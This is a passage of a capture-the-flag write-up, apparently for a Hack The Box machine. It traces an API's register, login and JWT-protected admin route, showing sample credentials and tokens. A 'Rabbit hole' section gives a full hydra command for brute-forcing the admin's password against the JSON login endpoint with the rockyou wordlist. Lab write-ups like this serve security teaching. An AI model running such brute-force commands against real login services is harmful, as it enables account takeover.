 While a login would look like:
```json
POST http://localhost:3000/api/user/login 
 {
	"email": "root@dasith.works",
	"password": "Kekc8swFgD6zU"
  }
   
```
And would then return a auth-token.
```json
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.PFJldSFVDrSoJ-Pg0HOxkGjxQ69gxVO2Kjn7ozw9Crg 
```
If we pass that auth token to a [JWT decoder](https://jwt.io/), we would get the decoded values:

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "_id": "6205894901291c0464dfdf16",
  "name": "theadmin",
  "email": "root@dasith.works",
  "iat": 1644530070
}
HMACSHA256(
    base64UrlEncode(header).base64UrlEncode(payload),secret
)
```
And finally we could access the private route through the following request:
```json
GET http://localhost:3000/api/priv 
auth-token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.PFJldSFVDrSoJ-Pg0HOxkGjxQ69gxVO2Kjn7ozw9Crg
content-type: application.json

{
    "key":"secretpassword"
}
```
The reply is what kind of user we are, there are only two types: normal user and administrator.
So according to the docs, if we follow this process we could register a user, authenticate it, get a authentication token and then check our privileges. If we are the admin we would get a reply that tells us our role. With that in mind we should try to get a authentication token to see if we can do any sql injects or try to register a user as admin or try the credentials in the docs.

#Rabbit hole
So with the general flow of the program in mind, we see that the user dasith is used in the example. If we try to register a user called dasith, we get a notification that that user excist. Therefore we could fire up hydra to do some bruteforcing to try to obtain his password.
Hydra is extreamly picky on the syntax, and now we are trying to bruteforce through a json application. Therefore a syntax like this would suffice to find the password:
` hydra -l root@dasith.works -P /usr/share/wordlists/rockyou.txt "http-post-form://10.10.11.120/api/user/login:{\"email\"\: \"root@dasith.works\",\"password\"\: \"^PASS^\"}:F=Password is|must be at least:H=Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Connection: close:H=Content-Type: application/json" -s 3000`
The interaction would simply look like this:
```http
POST /api/user/login HTTP/1.0
Accept:  text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language:  en-US,en;q=0.5
```